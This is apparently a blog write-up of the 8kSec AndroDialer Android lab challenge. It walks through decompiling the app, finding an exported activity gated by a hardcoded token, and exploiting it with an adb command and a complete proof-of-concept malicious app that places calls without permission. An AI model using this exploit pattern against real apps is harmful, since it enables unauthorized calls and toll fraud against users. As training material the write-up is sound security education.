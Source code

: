 ```yaml
---
title:  "8kSec AndroDialer Writeup"
date:   2025-09-12T16:34:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for AndroDialer challenge from 8kSec Android Labs. 

```
Goal:
Create a malicious application that exploits the AndroDialer application to initiate unauthorized phone calls to arbitrary numbers without the victim's knowledge or consent.
```

## Static Analysis

![](/assets/images_8ksec_androdialer/screen1.png)

Main function of our application is calling numbers :) Lets start our analysis with jadx.

### Code Analysis

Manifest file have lots of activities but one of them is important for us.

```xml
...
...
...
        <activity android:theme="@android:style/Theme.NoDisplay" android:name="com.eightksec.androdialer.CallHandlerServiceActivity" android:exported="true" android:taskAffinity="" android:excludeFromRecents="true">
            <intent-filter>
                <action android:name="com.eightksec.androdialer.action.PERFORM_CALL"/>
                <category android:name="android.intent.category.DEFAULT"/>
            </intent-filter>
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:scheme="tel"/>
            </intent-filter>
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:scheme="dialersec" android:host="call"/>
            </intent-filter>
        </activity>
...
...
...

```
Other activities are not exported(except main activity) but this one is exported and as the name suggest(`CallHandlerServiceActivity`),it can be a useful attack surface for our attack. 

This activity gets URI from the caller intent and checks some part from it.

````java
Uri data = getIntent().getData();
.
.
.
//path segment
pathSegments = data.getPathSegments()
indexOf = pathSegments.indexOf("token")

//query parameters
data.getQueryParameter("enterprise_auth_token")

//regex
data.getQuery();
Pattern.compile("enterprise_auth_token=([^&]+)");

//uri fragment
str = data.getFragment();
 if (b.o0(str, "token=", false)) {
    arrayList.add(b.z0(b.x0(str, "token="), "&"));
}
if (j.n0(str10, "enterprise_auth_token=")) {
    arrayList.add(b.x0(str10, "enterprise_auth_token="));}

//create arraylist of token values obtained from uri parts and check the token:

Object obj = arrayList.get(i);
    i++;
    String str13 = (String) obj;
    if (str13 != null)
        try {
            str3 = Uri.decode(str13);
        } catch (Exception e9) {
            Log.e("CallHandlerService", "Error decoding token", e9);
            str3 = str13;
        }
        if (str13.equals("8kd1aL3R_s3Cur3_k3Y_2023") || str13.equals("8kd1aL3R-s3Cur3-k3Y-2023") || h.a(str3, "8kd1aL3R_s3Cur3_k3Y_2023") || h.a(str3, "8kd1aL3R-s3Cur3-k3Y-2023"))

````
As seen in code, this activity try to find a token value from uri parts like:
```
?enterprise_auth_token=AAA
/token/AAA
#token=AAA
#S.enterprise_auth_token=AAA
```
and if the token is `"8kd1aL3R_s3Cur3_k3Y_2023"` or `"8kd1aL3R-s3Cur3-k3Y-2023"`, it will get phone number from URI and send an intent to Android call service to make a new call.

```java
Intent intent = new Intent("android.intent.action.CALL");
    intent.setData(Uri.parse("tel:" + str9));
    intent.addFlags(268435456);
    startActivity(intent);
```
For exploiting this problem, we can create a intent with proper host, scheme and query parameters and make a arbitrary call to any number without any permission. According to the intent filter that defined on AndroidManifest.xml file, our uri starts with `dialersec://call` and with the token and number parameters, final URI can be:

```
dialersec://call?enterprise_auth_token=8kd1aL3R_s3Cur3_k3Y_2023\&number=13371337
```
We can send the intent with adb:
```
adb shell am start -a android.intent.action.VIEW -d "dialersec://call?enterprise_auth_token=8kd1aL3R_s3Cur3_k3Y_2023\&number=13371337"
``` 
Note: Dont forget to escape `&` character, otherwise shell will truncate the command from that special character.

![](/assets/images_8ksec_androdialer/screen2.png)

Also we can do it with an malicious app. Here is code for it:

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.example.pwnandrodialer">

    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.PwnAndroDialer">
        <activity
            android:name=".MainActivity"
            android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>
```
```java
package com.example.pwnandrodialer;

import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.view.View;
import android.widget.Button;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Button button1 = (Button) findViewById(R.id.button);
        button1.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View view) {
                Uri uri = Uri.parse("dialersec://call?number=14531453&enterprise_auth_token=8kd1aL3R_s3Cur3_k3Y_2023");
                Intent intent = new Intent(Intent.ACTION_VIEW, uri);
                startActivity(intent);
            }
        });
    }
}
```

Thats all, see you!

PoC Video: [Youtube](https://youtu.be/Zh3FRD9l_F0)
